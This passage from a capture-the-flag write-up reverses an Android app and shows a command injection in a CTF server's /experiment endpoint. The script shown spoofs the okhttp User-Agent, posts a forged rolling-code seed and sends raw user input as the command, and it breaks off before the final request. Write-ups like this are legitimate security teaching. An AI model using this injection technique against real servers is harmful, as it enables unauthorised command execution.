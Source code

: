 Referencing the java code earlier

``` Java
public void onClick(View v) {
                Log.d("rollcode", "OnClick" + Arrays.toString(MainActivity.seed));
                MainActivity.seed = MainActivity.this.rollCode(MainActivity.seed);
                MainActivity.this.sendBytesToServer(MainActivity.seed);
            }
```

It seems like there is a rolling code system that rolls the previous `code`/`seed` with the server every time it sends the next ping

Finally, if you looked further in the library you would've seen this piece of deprecated code...

![img6](img6.png)

This tells us about this unimplemented `command_server()` function, which uses `/experiment`

From, the url we can see it takes a `command`. Lastly, the server seems to expect `okhttp` which is the reason why the app is able to ping the server and not the website.

Okhttp specifies the `User-Agent` on is packets as `Okhttp3`. But the server isn't that strict with checking it.

# The Finale 

Now we have everything we need to do to beat the challenge.

The methodology is that we need to send a packet, exploitiong the command injection in `/experiment`. This packet must contain the `Okttp` User-Agent. Lastly the payload need to contain a rolled(SHA256 hash) version of a `seed` or previous `code` on the server.

My original solution was using [Frida](https://frida.re/) to log the seed value from the app when ran. Then crafting a packet using that in python. But there is a simplier way of spoofing the app with your own seed.

That version is below...

```py
#!/usr/bin/env python3

import requests
import hashlib

def main():
    headers = {'User-Agent': 'okhttp'}
    seed = b'SEED:\x01\x01\x02\x03'

    URL0 = 'http://the-andro-experiment.ctf.ritsec.club/ping'
    response = requests.post(url=URL0, data=seed, headers=headers)

    command = input("Enter command: ")
    URL1='http://the-andro-experiment.ctf.ritsec.club/experiment?command=' + command
    payload = hashlib.sha256(b'\x01\x01\x02\x03').digest()
```